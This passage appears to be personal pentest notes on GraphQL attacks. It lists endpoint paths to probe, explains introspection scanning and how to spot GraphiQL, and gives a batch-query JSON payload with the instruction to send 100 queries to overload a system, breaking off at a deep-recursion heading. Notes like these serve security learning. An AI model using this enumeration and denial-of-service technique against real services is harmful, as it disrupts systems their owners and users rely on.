 ```python
api/v2/graphiql
api/v3/graphiql
v1/graphql
api/graphql
v1/api/graphql
graph
v1/graph
graphiql
v1/graphiql
console
query
graphql/console
altair

```


## 1 - Scan for *introspection*
- When introspection is enabled, the entire GraphQL schema can be retrieved with a single query.
https://gist.githubusercontent.com/craigbeck/b90915d49fda19d5b2b17ead14dcd6da/raw/e50819812a7a8a95b303ac0ea1464e2679e3e4bc/introspection-query.graphql

- Because the response of introspecion is overwhelming, We use [GraphQL-voyager](https://ivangoncharov.github.io/graphql-voyager/). for *nodes* and *edges* view  

- copy the response data and paste it into Graphql-voyager’s editor.

- we should also check if the *GraphiQL* is enabled. which allows constructing queries in a friendly user interface.

-  GraphiQL is usually found in paths such as: /graphiql or \_\_graphiql

# DoS

## Batch Queries 

we can only send it using *Burp* or *curl* 
```json
[
{"query" :"query {systemHealth }" },
{"query" :"query {systemHealth }" }
]
```

this shows that batch queries are enabled 
```json
[{"data":{"systemHealth":"System Load: 0.00\n"}},{"data":{"systemHealth":"System Load: 0.00\n"}}]
```

Now you can send 100 queries and overload the system

##  Deep recursion query attack
